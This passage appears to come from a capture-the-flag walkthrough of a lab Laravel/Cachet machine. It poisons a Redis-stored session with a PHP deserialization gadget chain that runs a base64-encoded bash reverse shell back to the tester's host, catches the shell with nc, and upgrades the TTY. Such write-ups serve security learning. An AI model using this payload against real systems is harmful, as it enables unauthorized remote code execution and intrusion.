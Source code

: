 I’ll re-poison the `.env` file, and refresh the page to get a session in Redis:

```
10.10.14.6:6379> keys *
1) "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34"

```

I’ll update it to the payload:

```
10.10.14.6:6379> set "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34" 'O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:78:"echo 'YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK'|base64 -d|bash";}'
Invalid argument(s)

```

It fails, because there a `'` in the payload and wrapping the full thing. I’ll go back and escape the `'` with a `\`. Now it works:

```
10.10.14.6:6379> set "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34" 'O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:78:"echo \'YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK\'|base64 -d|bash";}'
OK

```

I’ll refresh the page, and it hangs. There’s a shell at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.150 35616
bash: cannot set terminal process group (26): Inappropriate ioctl for device
bash: no job control in this shell
www-data@70e4165dab0b:/var/www/html/Cachet/public$

```

I’ll upgrade my shell with `script` and `stty` ([shell upgrade explained](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):

```

www-data@70e4165dab0b:/var/www/html/Cachet/public$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@70e4165dab0b:/var/www/html/Cachet/public$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@70e4165dab0b:/var/www/html/Cachet/public$

```
